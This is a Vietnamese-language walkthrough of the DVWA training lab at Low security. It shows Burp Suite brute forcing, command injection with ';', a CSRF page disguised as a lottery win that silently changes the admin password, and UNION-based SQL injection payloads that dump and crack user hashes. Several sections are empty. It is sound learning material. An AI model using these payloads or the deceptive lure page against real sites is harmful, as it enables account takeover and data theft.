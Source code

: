 # DVWA - Security Level: Low

## 1. Brute Force  
Su dung BurpSuite bat request khi thuc hien dang nhap:  
![Brute Forces_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_1.png)  
Su dung tinh nang **Intruder**, thu bruteforces voi tai khoan **admin**:  
![Brute Forces_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_2.png)  
Ket qua:  
![Brute Forces_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_3.png)  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection  
Nhap **8.8.8.8** vao input box:  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_1.png)  
Chuc nang **Ping a device** thuc hien cau lenh **ping -c 4**, thu su dung ky tu **';'** de ket hop voi cac cau lenh khac:  
![Command Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_2.png)  
## 3. CSRF  
Khi su dung chuc nang **Change your admin password**, he thong se gui GET request nhu sau:  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/CSRF_1.png)  
Trong GET request chi co thong tin ve PHPSESSID de xac dinh xem user nao dang gui request. Tao mot trang web index.html nhu sau:  
```
<!DOCTYPE html>
<html lang = "en">
<head>
  <meta charset = "UTF-8">
  <title> Vietlott </title>
</head>
<body>
  <h1> Chuc mung ban da trung Vietlott 100.000.000.000 VND </h1>
  <img style="display:none" src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change" alt="">
</body>
</html>
```  
Khi nguoi dung truy cap vao trang web tren se kich hoat HTTP request toi chuc nang **Change your admin password** cua **DVWA**, neu nguoi dung dang truy cap trang **DVWA** voi tai khoan **admin**, trinh duyet se tu dong su dung PHPSESSID cua nguoi dung de gui request thay doi mat khau thanh **abc123**.  
Kiem tra lai tai khoan **admin** voi mat khau **abc123**  
![CSRF_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/CSRF_2.png)
## 4. File Inclusion  

## 5. File Upload  

## 6. Insecure Captcha  

## 7. SQL Injection  
Nhap thu **"1"** vao input box:  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_1.png)  
Khi nhap **User ID = 1** trang web se tra ve thong tin cua **ID, First name, Surname**, vi vay cau lenh query co the la:  
**SELECT first_name, last_name FROM users WHERE user_id = id;**  
Thu kiem tra so column cua cau lenh query bang canh nhap **'UNION ODER BY 2--**  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_2.png)  
Kiem tra cac table trong database bang lenh query:  
**' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES-- -**  
![SQL Injection_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_3.png)  
Co table **users**, kiem tra cac column trong table **users** bang lenh query:  
**' UNION SELECT null, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'dvwa' and table_name = 'users'-- -**    
![SQL Injection_4](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_4.png)  
Trong table **user** co 2 column **user, password**, kiem tra 2 columns bang lenh query:  
**' UNION SELECT user, password FROM users-- -**  
![SQL Injection_5](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_5.png)  
Ta co cac thong tin ve **user, password**, **password** dang duoc ma hoa MD5. Sau khi giai ma:  
**admin - password  
gordonb - abc123  
1337 - charley  
pablo - letmein  
smithy - password**  
## 8. SQL Injection (Blind)  

## 9. Weak Session IDs  

## 10. XSS (DOM)  
    
## 11. XSS (Reflected)  
    
## 12. XSS (Stored)  

## 13. CSP Bypass  

## 14. JavaScript  
